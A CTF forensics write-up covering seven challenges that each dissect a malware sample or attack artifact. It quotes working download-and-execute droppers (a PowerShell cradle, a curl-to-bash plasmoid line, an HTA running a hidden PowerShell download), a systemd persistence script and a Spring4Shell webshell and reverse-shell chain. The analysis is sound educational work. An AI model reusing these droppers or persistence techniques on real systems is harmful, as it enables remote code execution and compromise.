# WRITE_UP #

## ALIEN CRADLE ##

### 1. Analysis ###
* **Given:** a file named `cradle.ps1`
* **Description:**
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### POWERSHELL CRADLE ####

Received the `.ps1` file, I use `VSCode` to open it:

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

Format in order to give it an easier look:
```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;
$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

First, the program checks whether the current user is `secret_HQ\Arth` or not. If it doesn't match, the script automatically exits.

So what happens if it's the right user? The program will create a `Net.WebClient` object, then use the user's credentials to bypass the `proxy` to make sure the malicious file not get blocked by the firewall. Next, it download a gzip file as a base64 string from the above url. Instead of saving the file to the hard disk, it loads the data directly into the memory, this technique is called `FileLess`.

Next, the program use `Invoke Expression` which is `IEX` (I so remember this from the question in BKSec interview lol) to execute the gzip code after decompress it.


Btw the flag is hardcoded in the command `$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';`

### 3. Solution ###
1. **Result:** The flag is `HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}`


## AN UNUSUAL SIGHTING ##

### 1. Analysis ###
* **Given:** a file named `bash_history.txt` and `sshd.log`
* **Description:**
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### NOT SO UNUSUAL (I GUESS) ####

This chal requires to connect through a ssh, in my case my big brother (respect) opened an instance for me:
```bash
nc 154.57.164.81 32071
+---------------------+---------------------------------------------------------------------------------------------------------------------+
|        Title        |                                                     Description                                                     |
+---------------------+---------------------------------------------------------------------------------------------------------------------+
| An unusual sighting |                        As the preparations come to an end, and The Fray draws near each day,                        |
|                     |             our newly established team has started work on refactoring the new CMS application for the competition. |
|                     |                  However, after some time we noticed that a lot of our work mysteriously has been disappearing!     |
|                     |                     We managed to extract the SSH Logs and the Bash History from our dev server in question.        |
|                     |               The faction that manages to uncover the perpetrator will have a massive bonus come the competition!   |
|                     |                                                                                                                     |
|                     |                                            Note: Operating Hours of Korp: 0900 - 1900                               |
+---------------------+---------------------------------------------------------------------------------------------------------------------+


Note 2: All timestamps are in the format they appear in the logs
```
* **The first question:** `What is the IP Address and Port of the SSH Server (IP:PORT)`
  
Using the `sshd.log` file, in the very first line, we can clearly see this line: `Server listening on 0.0.0.0 port 2221`.

Moreover, we could see a pattern that's try to establish a connection to this server:
`Connection from <src.ip> port <src.port> on <dst.ip> port <dst.port> rdomain ""` such as these ones:



So the answer is: `100.107.36.130:2221`

* **The second question:** `What time is the first successful Login`

Still using the `sshd.log` file, after efforts bruteforcing the password for `root`, we could see that the first time that the password accepted is:
`[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2`

So the answer is: `2024-02-13 11:29:50`

* **The third question:** `What is the time of the unusual Login`

Because the `log` file only give me the time attackers bruteforce and connect to the server, I tried something new with the `bash_history.txt`.

Scrolling through it little, besides some python scripts were ran in understandable time, I noticed this:



Who the hell would run `whoami` and `cat /etc/passwd` at `04:00:20` while the operating hours are from `0900 - 1900` (mentioned in the note). That's look so suspicious, I cross-refered to the `log` file to find the time the attacker logged in around that time, then I was locked in my answer: `2024-02-19 04:00:14`

So the answer is: `2024-02-19 04:00:14`

* **The fourth question:** `What is the Fingerprint of the attacker's public key`

So we know the attacker got the control of the victim's machine at `2024-02-19 04:00:14`, using the `.log` file, we could easily locate the `SHA256`:



So the answer is: `OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4`

* **The fifth and sixth question:** `What is the first command the attacker executed after logging in` and `What is the final command the attacker executed before logging out`

After identifying the exact time the attacker controled the machine, these question kinda easy, so here is the answers:


So the answer is: `whoami` and `./setup`

### 3. Solution ###
1. **Result:** The flag is `HTB{4n_unusual_s1ght1ng_1n_SSH_l0gs!}`


## Extraterrestrial Persistence ##

### 1. Analysis ###
* **Given:** a file named `persistence.sh`
* **Description:**
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### PERSISTENCEEEEE ####

Received the `.sh` file, I use `VSCode` to open it:

```sh
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```

First, the program uses `whoami` and `hostname` to check those two varibales, if those were different from `pandora` and `linux_HQ` respectively, the program automatically exits.

If it's the right user, the program will curl the `service` file from the `https://files.pypi-install.com/packeges/` into the `$path` which is `'/usr/local/bin/service'` then give it the permission to run. (they used `packeges` not `packages` to fool the careless ... (not me btw)).

Next, the program will echo a base64 string after decoding it to the `/usr/lib/systemd/system/service.service`
Decode the b64 strings, I got:

```
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```
These commands `ExecStart=/usr/local/bin/service` and `ExecStop=/usr/local/bin/service` make the malicious file being persistent in the victim's machine.

And the last line in the `.sh` file `systemctl enable service.service` config the service file to run automatically whenever the victim's machine boots. (I read abt it from these img)




Btw the flag is:  `HTB{th3s3_4l13nS_4r3_s00000_b4s1c}`.

### 3. Solution ###
1. **Result:** The flag is `HTB{th3s3_4l13nS_4r3_s00000_b4s1c}`


## RED MINERS ##

### 1. Analysis ###
* **Given:** a file named `miner_installer.sh`
* **Description:**
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### MINING TIME ####

Received the `.sh` file, I use `VSCode` to open it:

There's again a function called `checkTarget`:

```sh
  EXPECTED_USERNAME="root7654"
  EXPECTED_HOSTNAME_PREFIX="UNZ-"

  CURRENT_USERNAME=$(whoami)
  CURRENT_HOSTNAME=$(hostname)

  if [[ "$CURRENT_USERNAME" != "$EXPECTED_USERNAME" ]]; then
      exit 1
  fi

  if [[ ! "$CURRENT_HOSTNAME" == "$EXPECTED_HOSTNAME_PREFIX"* ]]; then
      exit 1
  fi
```

First, the program uses `whoami` and `hostname` to check those two variables, if those were different from `root7654` or do not starts with `UNZ-`, the program automatically exits.

The next function caught my eyes was the `cleanEnv` 'cause it uses linux command to interact with important files such as `/root/.ssh/authorized_keys`, ...:



Scrolling through little more, the function tried to kill a lots processes using `pkill` and `ps aux` command.
you can read more abt it here: `https://www.linuxhowtos.org/Tips%20and%20Tricks/kill_processes.htm?print=154`.

Moreover, there's some killing command look likes this:
```sh
ps auxf | grep -v grep | grep "mine.moneropool. whecom" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "pool.t00ls.ru" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "xmr.crypto-pool.fr:8080" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "xmr.crypto-pool.fr:3333" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "/tmp/a7b104c270" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "xmr.crypto-pool.fr:6666" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "xmr.crypto-pool.fr:7777" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "xmr.crypto-pool.fr:443" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "stratum.f2pool.com:8888" | awk '{print $2}' | xargs -I % kill -9 %
  ps auxf | grep -v grep | grep "xmrpool.eu" | awk '{print $2}' | xargs -I % kill -9 %
```
With some researches, I acknowledged that these are crypto mining pool, we don't need to know abt it to solve this chal so I'm gonna let it sink here, but from this, we know that this is a crypto mining program.

Scrolling through a little more, I saw this function:


The func has a url contains a base64 string `cGFydDI9Il90aDMxcl93NHkiCg==`, and try to check connection by sending a silent `HEAD` request to that `url` and check for the `200 OK` in the response header.

Next one is this function called `checkExists:`


This function checks the `MD5 hash` to confirm the `path` is correct, then it makes a directory in the `BIN_PATH/$dest` and then copy `$CHECK_PATH` to the `$BIN_PATH/$dest`. Btw we found another base64 string: `X3QwX200cnN9Cg==`.

Then, scrolling down a bit we find another b64 string which writen to the `.bashrc` file:
`echo "ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig==" | base64 -d >> /home/$USER/.bashrc`

And in the very last line of the code we found the last b64 string which is `cGFydDE9IkhUQnttMW4xbmciCg==`:


Now let CyberChef do its work:


### 3. Solution ###
1. **Result:** The flag is `HTB{m1n1ng_th31r_w4y_t0_m4rs_th3_r3d_pl4n3t}`


## SP00KY THEME ##

### 1. Analysis ###
* **Given:** a directory named `plasma`, which contains 3 more directories: `desktoptheme`, `look-and-feel`, `plasmoids`
* **Description:**
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### PWNED THROUGH THEME ??? ####

At first, when opened the `plasma` folder and see other folders, clearly this is a computer theme (At this time I really what the purpose of the chal 'cause what is so interesting in theme for atackers to exploit)

Digging on the Internet a little more, I knew that `plasmoid theme` in `KDE (K Desktop Environment)` changed desktop theme based on `SVG images` and `QML code`.

So I tried open these files in `VSCode Studio`, after a few times, I saw this file named `util.js` that look like this:


```javascript
const NET_DATA_SOURCE =
    "awk -v OFS=, 'NR > 2 { print substr($1, 1, length($1)-1), $2, $10 }' /proc/net/dev";

const PLASMOID_UPDATE_SOURCE = 
    "UPDATE_URL=$(echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"

function parseTransferData(data) {
    const transferData = {};

    for (const line of data.trim("\n").split("\n")) {
        const [name, rx, tx] = line.split(",");

        if (name === "lo") {
            continue;
        }

        transferData[name] = { rx, tx };
    }

    return transferData;
}

function calcSpeedData(prevTransferData, nextTransferData, duration) {
    const speedData = {};

    for (const key in nextTransferData) {
        if (prevTransferData && key in prevTransferData) {
            const prev = prevTransferData[key];
            const next = nextTransferData[key];
            speedData[key] = {
                down: ((next.rx - prev.rx) * 1000) / duration,
                up: ((next.tx - prev.tx) * 1000) / duration,
                downTotal: nextTransferData[key].rx,
                upTotal: nextTransferData[key].tx,
            };
        }
    }

    return speedData;
}
```

Clearly we can see a base64 string in the variable `PLASMOID_UPDATE_SOURCE` there's a reversed b64 strings. 
This variable try to `curl` a `update_sh` file from the `UPDATE URL` and run it in `bash`. 

Now let CyberChef do its work:


After this chall I knew that actackers literally pwn through anything ...
### 3. Solution ###
1. **Result:** The flag is `HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}`


## URGENT ##

### 1. Analysis ###
* **Given:** a file named `Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml`
* **Description:**
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### SUSPICIOUS ATTACHMENT ####

First, we need to know that the `.eml` file is a file format used to store and archive individual email messages, including the subject, sender, body, and attachments.

I used this command to copy the content of the email to a `.txt` file:
```bash
cp 'Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml' test.txt
```

So the contents look like this: 



We can clearly see the `subject`, `sender`, `date`, `attachments`, ... like I mentioned before.
The body is a b64 strings, decode it we got this: 

```
Dear Fellow Faction Leader,

I hope this message reaches you in good stead amidst the chaos of The Fray. I write to you with an offer of alliance and resistance against the oppressive regime of KORP™.

It has come to my attention that KORP™, under the guise of facilitating The Fray, seeks to maintain its stranglehold over our society. They manipulate and exploit factions for their own gain, while suppressing dissent and innovation.

But we refuse to be pawns in their game any longer. We are assembling a coalition of like-minded factions, united in our desire to challenge KORP™'s dominance and usher in a new era of freedom and equality.

Your faction has been specifically chosen for its potential to contribute to our cause. Together, we possess the skills, resources, and determination to defy KORP™'s tyranny and emerge victorious.

Join us in solidarity against our common oppressor. Together, we can dismantle the structures of power that seek to control us and pave the way for a brighter future.

Reply to this message if you share our vision and are willing to take a stand against KORP™. Together, we will be unstoppable. Please find our online form attached.

In solidarity,

Anonymous member
Leader of the Resistance
```

Looked like a recruit email, however I noticed at this line: `Please find our online form attached.`, and below is the online form mentioned:


Another base64 strings, using cyberchef, it gave me a hex string, combined those 2, I got this:



The form actually is a malicious program, when open the form, it will display the code `404 - Not Found`, however the real culprit is this function running hidden in the terminal:

```bash
Sub window_onload
    const impersonation = 3
    Const HIDDEN_WINDOW = 12
    Set Locator = CreateObject("WbemScripting.SWbemLocator")
    Set Service = Locator.ConnectServer()
    Service.Security_.ImpersonationLevel=impersonation
    Set objStartup = Service.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    Set Process = Service.Get("Win32_Process")
    Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
    window.close()
end sub
```

The attacker used `Set Process = Service.Get("Win32_Process")` to bypass the `Windows Defender`. The argument `-windowstyle hidden` hides the terminal window when running the file. Then the attacker downloaded the file `form1.exe` from the url `https://standunited.htb/online/forms` into `AppData` then used  `Start-Process` to run the file. 

This chal shows that you need to be careful with attached files in suspicious email.
Btw the flag is hardcoded in the command `$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`

### 3. Solution ###
1. **Result:** The flag is `HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`


## WRONG SPOOKY SEASON ##

### 1. Analysis ###
* **Given:** a pcap file named `capture.pcap`
* **Description:**

* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### SPRING4SHELL CVE ####
At first, when opened the pcap file, we can see a lots `.jpg` file transfered through some streams such as this one:


Scrolling a little more, in the `TCP stream 7`, we captured this one `HTTP POST request` with some java code look quite sus:

.

After some research, I knew that this is actually an exploiting `CVE-2022-22965 SPRING4SHELL`:


So basically, by injecting values into `class.module.classLoader.resources.context.parent.pipeline.first.pattern`, the attacker reconfigures the logging mechanism to write a malicious `.jsp` in `ROOT` directory. After received the file, the attacker can execute commands by sending requests to that JSP file.

The HTTP access logs for exploitation attempts will look like this:
`GET /example/tomcatwar.jsp?pwd=j&cmd=whoami HTTP/1.1`

Next, next streams contain `GET` requests that match the pattern:


The attacker command had access to `whoami`, `id`, `install socat`, then used `socat` to connect a `reverse shell` to a TCP address: `IP: 192.168.1.180` at `port: 1337` 

In the next stream, we can clearly see the log file contains shell content mentioned before, that's where we can see the flag also:

